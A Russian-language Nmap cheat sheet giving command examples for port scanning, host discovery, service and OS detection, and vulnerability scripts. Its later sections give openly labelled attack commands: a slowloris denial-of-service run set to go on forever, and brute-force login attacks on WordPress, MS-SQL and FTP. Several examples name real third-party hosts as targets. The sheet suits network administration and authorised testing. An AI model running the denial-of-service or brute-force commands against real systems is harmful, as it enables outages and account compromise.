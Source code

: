 # Nmap

[Установка](https://nmap.org/download "САЙТ")

[Документация](https://nmap.org/man/ru/ "САЙТ")


### Использование

* **Cканирование портов**
```
nmap -p 80 X.X.X.X
nmap -p 1-65535 localhost
nmap -p 80,443 8.8.8.8
```

* **Обычное сканирование хоста**
```
nmap 1.1.1.1
nmap 1.1.1.1 8.8.8.8
nmap 1.1.1.1,2,3,4
nmap 8.8.8.0/28
nmap 8.8.8.*
nmap -p 8.8.8.* --exclude 8.8.8.1
nmap -iL list.txt # лист с хостами в файле
```

* **Сканирование хостов путем пинга**
```
nmap -sp 192.168.5.0/24
```

* **Сохранить результат сканирование в файл**
```
nmap -oN output.txt securitytrails.com # plain text
nmap -oX output.xml securitytrails.com # xml
```

* **Отключение резолва DNS для ускорения сканирования `-n`**
```
nmap -p 80 -n 8.8.8.8
```

* **Быстрое сканирование ОС и сервиса `-A` + `-T4`**
```
nmap -A -T4 cloudflare.com
```

* **Сканирование версии сервиса/демона**
```
nmap -sV localhost
```

* **Сканирование tcp/udp**
```
nmap -sT 192.168.1.1
nmap -sU localhost
```

* **Поиск известнвых CVE уязвимостей с помощью скрипта**
```
nmap -Pn --script vuln 192.168.1.105
```

* **DDOS атака с помощью nmap**
```
nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true
```

* **Brute force атака Wordpress**
```
nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.1.105
```

* **Brute force атака MS-SQL**
```
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.105
```

* **Brute force атака FTP**
```
nmap --script ftp-brute -p 21 192.168.1.105
```

* **Поиск backdoor/malware infections**
```
nmap -sV --script=http-malware-host 192.168.1.105 # common
nmap -p80 --script http-google-malware infectedsite.com # google clock malware
```
